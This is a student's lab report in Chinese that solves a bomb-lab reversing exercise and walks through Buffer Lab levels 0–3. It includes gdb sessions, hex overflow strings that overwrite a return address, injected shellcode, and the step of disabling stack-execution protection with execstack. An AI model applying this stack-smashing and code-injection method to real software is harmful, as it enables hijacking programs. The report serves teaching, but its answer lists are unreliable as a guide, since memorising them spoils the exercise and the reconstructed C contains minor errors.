 8048daf:	c7 44 24 04 0b 9a 04 	movl   $0x8049a0b,0x4(%esp) # format string
 8048db6:	08 
 8048db7:	8b 45 08             	mov    0x8(%ebp),%eax
 8048dba:	89 04 24             	mov    %eax,(%esp)
 8048dbd:	e8 a6 fa ff ff       	call   8048868 <sscanf@plt>
 8048dc2:	89 45 fc             	mov    %eax,-0x4(%ebp)
 8048dc5:	83 7d fc 01          	cmpl   $0x1,-0x4(%ebp) 		# 检查输入个数
 8048dc9:	7f 05                	jg     8048dd0 <phase_5+0x35>
 8048dcb:	e8 f6 08 00 00       	call   80496c6 <explode_bomb>
 8048dd0:	8b 45 ec             	mov    -0x14(%ebp),%eax 
 8048dd3:	83 e0 0f             	and    $0xf,%eax 
 8048dd6:	89 45 ec             	mov    %eax,-0x14(%ebp) 	# x=x&0xf
 8048dd9:	8b 45 ec             	mov    -0x14(%ebp),%eax
 8048ddc:	89 45 f8             	mov    %eax,-0x8(%ebp)
 8048ddf:	c7 45 f0 00 00 00 00 	movl   $0x0,-0x10(%ebp) 	# i=0
 8048de6:	c7 45 f4 00 00 00 00 	movl   $0x0,-0xc(%ebp) 		# sum=0
 8048ded:	eb 16                	jmp    8048e05 <phase_5+0x6a>
 8048def:	ff 45 f0             	incl   -0x10(%ebp) 			# i++;
 8048df2:	8b 45 ec             	mov    -0x14(%ebp),%eax 
 8048df5:	8b 04 85 c0 a5 04 08 	mov    0x804a5c0(,%eax,4),%eax 
 8048dfc:	89 45 ec             	mov    %eax,-0x14(%ebp) 	# x=array[x]
 8048dff:	8b 45 ec             	mov    -0x14(%ebp),%eax
 8048e02:	01 45 f4             	add    %eax,-0xc(%ebp) 		# sum+=x
 8048e05:	8b 45 ec             	mov    -0x14(%ebp),%eax 
 8048e08:	83 f8 0f             	cmp    $0xf,%eax 			# cmp x:15
 8048e0b:	75 e2                	jne    8048def <phase_5+0x54> 
 8048e0d:	83 7d f0 0c          	cmpl   $0xc,-0x10(%ebp) 	# cmp i:12
 8048e11:	75 08                	jne    8048e1b <phase_5+0x80> 
 8048e13:	8b 45 e8             	mov    -0x18(%ebp),%eax 
 8048e16:	39 45 f4             	cmp    %eax,-0xc(%ebp) 		# cmp sum:y
 8048e19:	74 05                	je     8048e20 <phase_5+0x85> 
 8048e1b:	e8 a6 08 00 00       	call   80496c6 <explode_bomb>
 8048e20:	c9                   	leave  
 8048e21:	c3                   	ret    
```

查看输入格式：

```shell
(gdb) x/s 0x8049a0b
0x8049a0b:      "%d %d"
```

通过分析汇编代码可以知道，程序在第28行调用了数组，数组地址为`0x804a5c0`，且长度为16，因为要x的范围为`0<=x<16`，x要作为数组索引访问数组；这里最关键的就是打印出数组的值：

```shell
(gdb) p *0x804a5c0@16
$1 = {10, 2, 14, 7, 8, 12, 15, 11, 0, 4, 1, 13, 3, 9, 6, 5}
```

根据汇编代码反推出phase_5函数的源程序如下：

```c
void phase_5(const char *str)
{
    int x,y;
    int n = ssccanf(str,"%d %d",&x,&y);
    if(n<=1)
    {
        explode_bomb();
        return ;
    }
    int i=0,sum=0;
    int array[] = {10, 2, 14, 7, 8, 12, 15, 11, 0, 4, 1, 13, 3, 9, 6, 5};
    x=x&0xf;
    while(x!=0xf){
        i++;
        x=array[4*x];
        sum+=x;
    }
    if(i==12&sum==y)
    	return ;
    explode_bomb();
}
```

因为循环只能进行12次，可以根据数组反推出x变化序列，进而得到序列和：`y=sum=93`

```c
15 6 14 2 1 10 0 8 4 9 13 11 7
```

答案为：

```shell
7 93
```

### Phase 6

```assembly
08048eb6 <phase_6>:
 8048eb6:	55                   	push   %ebp
 8048eb7:	89 e5                	mov    %esp,%ebp
 8048eb9:	83 ec 18             	sub    $0x18,%esp
 8048ebc:	c7 45 f8 6c a6 04 08 	movl   $0x804a66c,-0x8(%ebp) # 0x804a66c in M[-0x8(%ebp)]
 8048ec3:	8b 45 08             	mov    0x8(%ebp),%eax
 8048ec6:	89 04 24             	mov    %eax,(%esp)			# input_strings:str
 8048ec9:	e8 8a f9 ff ff       	call   8048858 <atoi@plt> 	# ascii to int
 8048ece:	89 c2                	mov    %eax,%edx 			# n1 = atoi(str)
 8048ed0:	8b 45 f8             	mov    -0x8(%ebp),%eax 
 8048ed3:	89 10                	mov    %edx,(%eax) 			# n1 in 0x804a66c
 8048ed5:	8b 45 f8             	mov    -0x8(%ebp),%eax 
 8048ed8:	89 04 24             	mov    %eax,(%esp) 			
 8048edb:	e8 42 ff ff ff       	call   8048e22 <fun6>
 8048ee0:	89 45 f8             	mov    %eax,-0x8(%ebp) 		# p=fun6(h)
 8048ee3:	8b 45 f8             	mov    -0x8(%ebp),%eax
 8048ee6:	89 45 fc             	mov    %eax,-0x4(%ebp) 		# p in M[-0x4(%ebp)]
 8048ee9:	c7 45 f4 01 00 00 00 	movl   $0x1,-0xc(%ebp) 		# i=1
 8048ef0:	eb 0c                	jmp    8048efe <phase_6+0x48>
 8048ef2:	8b 45 fc             	mov    -0x4(%ebp),%eax 		
 8048ef5:	8b 40 08             	mov    0x8(%eax),%eax 		
 8048ef8:	89 45 fc             	mov    %eax,-0x4(%ebp) 		# p=p->next
 8048efb:	ff 45 f4             	incl   -0xc(%ebp) 			# i++;
 8048efe:	83 7d f4 08          	cmpl   $0x8,-0xc(%ebp) 		# cmp i:8
 8048f02:	7e ee                	jle    8048ef2 <phase_6+0x3c> 
 8048f04:	8b 45 fc             	mov    -0x4(%ebp),%eax 
 8048f07:	8b 10                	mov    (%eax),%edx			# get n2=p->val
 8048f09:	a1 6c a6 04 08       	mov    0x804a66c,%eax 		# get n1
 8048f0e:	39 c2                	cmp    %eax,%edx 			# cmp n2:n1
 8048f10:	74 05                	je     8048f17 <phase_6+0x61>
 8048f12:	e8 af 07 00 00       	call   80496c6 <explode_bomb>
 8048f17:	c9                   	leave  
 8048f18:	c3                   	ret    
```

phase_6一开始调用了函数atoi，该函数声明如下：

```c
int atoi(const char *str);
// str -- 要转换为整数的字符串。
// 该函数返回转换后的长整数，如果没有执行有效的转换，则返回零。
```

所以猜测需要输入一个可以转换为整数的字符串。运行程序并输入测试字符串`"12345"`，查看调用atoi函数前栈中的数据，可以看到输入字符串的地址被存放在栈顶，字符串起始地址为`0x804aa30`。在调用了atoi函数后，程序将返回值存放到了地址`0x804a66c`中，打印出来显示是刚刚输入的字符串转成的数字：

```powershell
(gdb) x/s 0x804aa30
0x804aa30 <input_strings+400>:  "12"
...
(gdb) x/d 0x804a66c
0x804a66c <node0>:      12
```

接下来程序调用了函数fun6，并将返回值放入到`-0x4(%ebp)`中；其中第18到24行为链表的访问，执行8次后跳出循环。最后终止时比较与 atoi 转换的结果是否一致。通过阅读fun6的反汇编代码可知fun6函数并没有使用到atoi 转换的结果，所以直接运行到第27行查看寄存器`%edx`的值，该值为fun6得到的结果：149。最终答案为：

```c
149
```

## 实验结果

phase1~6的答案如下：

```c
The future will be better tomorrow.
5 10 15 20 25 30
0 t 870
10
7 93
149
```

按照阶段依次输入上面分析的答案，运行结果截图如下：




# 实验3：缓冲区溢出（Buffer Lab）

## 实验目标

- 掌握函数调用时的栈帧结构

- 利用输入缓冲区的溢出漏洞，将攻击代码嵌入当前程序的栈帧中，使得程序执行我们所期望的过程

## 实验介绍

- 文件组成
  - makecookie：生成cookie    例：./makecookie SA18225155 生成cookie
  - Bufbomb：可执行程序-攻击对象
  - Sendstring:  字符格式转换

- bufbomb程序

Bufbomb中包含一个getbuf函数，该函数实现如下：

```c
int getbuf()
{
    char buf[12]; // 对buf没有越界检查,超过11个字符将溢出
    Gets(buf);
    return 1;
}
```

getbuf的反汇编代码：

```assembly
08048fe0 <getbuf>:
 8048fe0:	55                   	push   %ebp				#压入返回地址
 8048fe1:	89 e5                	mov    %esp,%ebp
 8048fe3:	83 ec 18             	sub    $0x18,%esp		#allocate 24B
 8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax	#get string address
 8048fe9:	89 04 24             	mov    %eax,(%esp)
 8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
 8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax		#return 1;
 8048ff6:	c9                   	leave  
 8048ff7:	c3                   	ret    
 8048ff8:	90                   	nop
 8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
```

- 溢出

溢出的字符将覆盖栈帧上的数据，特别的，会覆盖程序调用的返回地址，赋予我们控制程序流程的能力；通过构造溢出字符串，程序将“返回”至我们想要的代码上。

- 字符构造

计算机系统中，字符以ASCII码表示 /存储，例如，输入’1’，存储为’0x31’。本实验也需要扩展的ASCII码（128~255）。为了构造所需要的地址或其他数据，我们需要逆反”字符->ASCII码”的过程；采用代码包给出的 sendstring工具。

```powershell
./sendstring < exploit.txt > exploit-raw.txt
```

其中exploit.txt保存目标数据（即空格分隔的ASCII码），exploit-raw.txt为逆向出的字符串。

- 字符串输入

前述方法构造出的字符串按如下方式输入：

```powershell
./bufbomb -t SA18225155 < exploit-raw.txt
```

从标准输入设备输入：ALT+ASC码的十进制数（小键盘输入）。注意，最后一个数字按下后与ALT键同时放开。例，输入字符“1”为ALT+49。实验完成后提交exploit.txt文件。

- 指令构造方法示例

```assembly
pushl $0x89abcdef 	# Push value onto stack 
addl $17,%eax 		# Add 17 to %eax 
ret
```

保存成example.s，然后输入命令：

```c
gcc -c example.s 
objdump -d example.o > example.d
```

## 实验过程

### Level 0: Candle

> 目标：Bufbomb中一个正常情况下不会被执行的函数smoke，在getbuf返回时跳到smoke函数执行。

```c
void smoke()
{
    entry_check(0); /* Make sure entered this function properly */
    printf("Smoke!: You called smoke()\n");
    validate(0);
    exit(0);
}
```

要将smoke函数的地址放入getbuf的返回地址，需要构造合适的输入字符串。通过阅读getbuf的汇编代码可以知道输入字符串首地址被存放在内存栈`-0xc(%ebp)`中，运行程序，输入测试字符串，并打印出该字符串作验证。

```shell
gdb bufbomb
(gdb) b getbuf
(gdb) run -t SAXXXXXXXX
Starting program: /home/ubuntu/桌面/bufferlab/bufbomb -t SAXXXXXXXX
Team: SAXXXXXXXX
Cookie: 0x58932f5a
...
(gdb) x/s $ebp-0xc
0xffffb96c:     "hello world"
```

所以可以知道字符串首地址`0xffffb96c`。用smoke函数的地址覆盖getbuf的返回地址，还需要找到函数smoke函数的首地址：

```shell
(gdb) p/x &smoke
$1 = 0x8048e20
```

在test的汇编代码中，getbuf的下一行指令的地址为`0x804901e`，该地址在调用getbuf后被保存在`%ebp+0x4`中

```assembly
08049000 <test>:
...
 8049019:	e8 c2 ff ff ff       	call   8048fe0 <getbuf>
 804901e:	89 c2                	mov    %eax,%edx
...
```

```shell
(gdb) x/x $ebp+4
0xffffb97c:     0x0804901e
```

从`0xffffb96c`覆盖到`0xffffb97c`，需要先填充 16字节字符串内容，然后填充smoke函数的地址：`20`,`8e`,`04`,`08`（小端机器），如果是 64 位机器则需要继续覆盖后面为 0。所以我们需要构造字符串十六进制表示：

```assembly
// exploit0.txt
31 31 31 31 31 31 31 31 
32 32 32 32 32 32 32 32 
20 8e 04 08 00 00 00 00
```

使用工具生成字符串并运行程序，结果如下：

```powershell
./sendstring < exploit0.txt > exploit-raw.txt
./bufbomb -t SAXXXXXXXX < exploit-raw.txt
```



### Level 1: Sparkler 

> 目标：调用 fizz(val) 函数，并将自己的 cookies 传递为参数。（Cookie必须为自己学号生成）

```c
void fizz(int val)
{
    entry_check(1); /* Make sure entered this function properly */
    if (val == cookie)
    {
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    }
    else
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```

打印该函数地址：

```powershell
(gdb) x/x fizz
0x8048dc0 <fizz>:       0x53e58955
```

生成cookie：

```powershell
./makecookie SAXXXXXXXX
0x58932f5a
```

部分反汇编代码：

```assembly
08048dc0 <fizz>:
...
 8048dc4:	83 ec 14             	sub    $0x14,%esp
 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx	# 传入参数值
...
```

通过阅读汇编代码可以知道，0x8(%ebp)是传入的参数的存放地址，即$ebp+8,这里需要将其覆盖为生成的cookie值作为输入，而\$ebp+4是原来正常的返回地址，需要覆盖为fizz的地址`0x8048dc0`。构造输入：

```assembly
// exploit1.txt
31 31 31 31 31 31 31 31 
32 32 32 32 32 32 32 32 
c0 8d 04 08 00 00 00 00 
5a 2f 93 58 00 00 00 00
```

使用工具生成字符串并运行程序，结果如下：



### Level 2: Firecracker

> 目标：含有一个 bang 函数，和一个全局变量 global_value，需要注入机器代码，修改 global_value 为 cookies 的值，再调用 bang 函数。具体指令构造方法参加实验说明文档。可通过execstack工具解除栈执行限制。

```c
int global_value = 0;
void bang(int val)
{
    entry_check(2); /* Make sure entered this function properly */
    if (global_value == cookie)
    {
        printf("Bang!: You set global_value to 0x%x\n", global_value);
        validate(2);
    }
    else
        printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```

bang 汇编语言的前几行：

```assembly
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax	#get global_value
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax	#cmp global_value:cookie
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
```

汇编语言的第7、8行对应源程序的if语句，所以猜测global_value被存储在`0x804a1dc`中，cookie被存储在`0x804a1cc`中。检查如下：

```powershell
(gdb) x/x 0x804a1dc
0x804a1dc <global_value>: 0x00000000
(gdb) x/x 0x804a1cc
0x804a1cc <cookie>:     0x00000000
```

思路是将汇编代码注入到char数组的首地址`0xffffb96c`，让char数组的首地址覆盖$eax+4y原来的返回地址，当发生ret时，就会跳转到char数组首地址执行注入的汇编代码。汇编代码中要先修改global_value的值，然后将 bang 函数的地址 push 进栈中，然后使用 ret 命令。当执行到注入的ret命令时，因为push了bang函数的地址，就会返回到bang函数执行。汇编代码如下：

```assembly
movl  $0x58932f5a, 0x804a1dc		# global_value=cookie
pushl $0x08048d60					# 将 bang 函数的首地址压入栈
ret
```

将汇编语言转换成十六进制的机器代码：

```powershell
gcc -m32 -c example.s 
objdump -d example.o > example.d
```

```assembly
00000000 <.text>:
   0:	c7 05 dc a1 04 08 5a 	movl   $0x58932f5a,0x804a1dc
   7:	2f 93 58 
   a:	68 60 8d 04 08       	push   $0x8048d60
   f:	c3                   	ret    
```

构造注入机器代码，转成字符串并运行。

```assembly
// exploit2.txt
c7 05 dc a1 04 08 5a 2f 
93 58 68 60 8d 04 08 c3
6c b9 ff ff 00 00 00 00
```

结果出现段错误，是因为Linux系统默认开启了栈保护机制，用于阻止缓冲区溢出攻击。所以不可以在栈中直接执行指令，需要使用execstack工具解除栈执行限制。即使如此也只能在gdb调试下有效，实际运行仍然会出现段错误。

```powershell
sudo apt-get install execstack 	#安装execstack
execstack -s bufbomb			#修改程序堆栈的可执行属性
```





### Level 3: Dynamite

> 目标：这个 Level 要求我们注入一段能够修改 getbuf 返回值的代码，返回值从 1 改成 cookie 值，此外还需要还原所有破坏，继续运行 test 的剩下部分。函数正常返回时执行 第15行，我们要让函数执行第12行

```c
void test()
{
    int val;
    volatile int local = 0xdeadbeef;
    entry_check(3); /* Make sure entered this function properly */
    val = getbuf();
    /* Check for corrupted stack */
    if (local != 0xdeadbeef){
        printf("Sabotaged!: the stack has been corrupted\n");
    }
    else if (val == cookie){
        printf("Boom!: getbuf returned 0x%x\n", val);
        validate(3);
    }
    else
    {
        printf("Dud: getbuf returned 0x%x\n", val);
    }
}
```

函数的返回值保存在%eax中，所以将cookie值放入这个寄存器中，并将原来正确的返回地址（即call <getbuf>的下一条指令地址`0x804901e`）压入栈中，构造完成攻击的汇编代码如下:

```assembly
movl $0x58932f5a, %eax		#move cookie to %eax, return %eax
push $0x804901e				#push <test> return address
ret
```

将汇编语言转换成十六进制的机器代码：

```assembly
00000000 <.text>:
   0:	b8 5a 2f 93 58       	mov    $0x58932f5a,%eax
   5:	68 1e 90 04 08       	push   $0x804901e
   a:	c3                   	ret    
```

生成的机器代码一共是11个字节，再加上一个对齐字节凑足12字节，可以看到这时已经填满了char字符串的缓冲区。与上一个问题相同，还要用char字符串首地址`0xffffb96c`覆盖原来的返回地址，以便于执行注入的指令。但这里还要注意一点，为了保证栈不被破坏，除了必要的修改，我们必须保持其他的栈字保存不变，先打印出原来的数据：

```powershell
(gdb) x/24xb 0xffffb96c
0xffffb96c:     0x31    0x32    0x33    0x34    0x00    0x00    0x00    0x00
0xffffb974:     0xc0    0xb5    0x04    0x08    0x98    0xb9    0xff    0xff
0xffffb97c:     0x1e    0x90    0x04    0x08    0x03    0x00    0x00    0x00
```

构造攻击代码：

```assembly
// exploit3.txt
b8 5a 2f 93 58 68 1e 90 
04 08 c3 00 98 b9 ff ff
6c b9 ff ff 03 00 00 00
```

转成字符串并运行：



